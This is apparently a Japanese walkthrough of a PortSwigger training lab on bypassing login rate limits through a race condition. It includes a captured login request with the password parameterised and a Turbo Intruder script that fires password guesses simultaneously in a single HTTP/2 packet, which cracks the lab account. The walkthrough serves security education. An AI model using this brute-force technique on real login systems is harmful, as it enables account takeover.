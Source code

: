 # 競合状態によるレート制限のバイパス

以下のハッキングラボを実施します  
https://portswigger.net/web-security/race-conditions/lab-race-conditions-bypassing-rate-limits  
このラボのログイン メカニズムは、ブルート フォース攻撃を防ぐためにレート制限を使用しています。ただし、競合状態によりこれが回避される可能性があります。

- 1. 同じユーザーで 3 回ログインに失敗してみます。ログインレート制限に引っかかるようになります。
     ![2](https://github.com/pea-sys/web-security-experiments/assets/49807271/b646a26e-39e3-4de5-ab5d-9c023c49cd16)

- 2. 別のユーザー名称でログインを試します。レート制限に引っかからないので、セッションではなく UserName 毎にレート制限がされていることが分かります。このことから、サーバー側でレート制限判定処理で競合状態が作れる可能性があります

- 3. ログインリクエストを Send to Turbo intruder します

- 4. リクエストのパスワードをパラメータ化します

```
POST /login HTTP/2
Host: 0ad0007204ca5c5980526c8900090008.web-security-academy.net
Cookie: session=XcC3QfbjKanjEEL5YwheAzi9iRTDH1zT
Content-Length: 67
Cache-Control: max-age=0
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
Origin: https://0ad0007204ca5c5980526c8900090008.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/115.0.5790.171 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ad0007204ca5c5980526c8900090008.web-security-academy.net/login
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

csrf=fjPBaBxNcO6EPbQFaMV3ts5s6e3r9K7O&username=carlos&password=%s
```

- 5. ペイロード毎に実行するスクリプトを設定します  
     Engine.BURP2 を使用することでシングルパケットになるので、競合状態を作り出せる可能性があります。

```py
def queueRequests(target, wordlists):

    # as the target supports HTTP/2, use engine=Engine.BURP2 and concurrentConnections=1 for a single-packet attack
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           engine=Engine.BURP2
                           )

    # assign the list of candidate passwords from your clipboard
    passwords = wordlists.clipboard

    # queue a login request using each password from the wordlist
    # the 'gate' argument withholds the final part of each request until engine.openGate() is invoked
    for password in passwords:
        engine.queue(target.req, password, gate='1')

    # once every request has been queued
    # invoke engine.openGate() to send all requests in the given gate simultaneously
    engine.openGate('1')


def handleResponse(req, interesting):
    table.add(req)
```

- 6. 攻撃開始すると、3 回以上のログイン試行ができており、パスワードも見つかりました

![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/9b0d2f8f-c884-46c5-8a99-c846b38df96a)

- 7. 後は課題にあるように carlos でログインして、Admin パネルからユーザーを削除するだけです
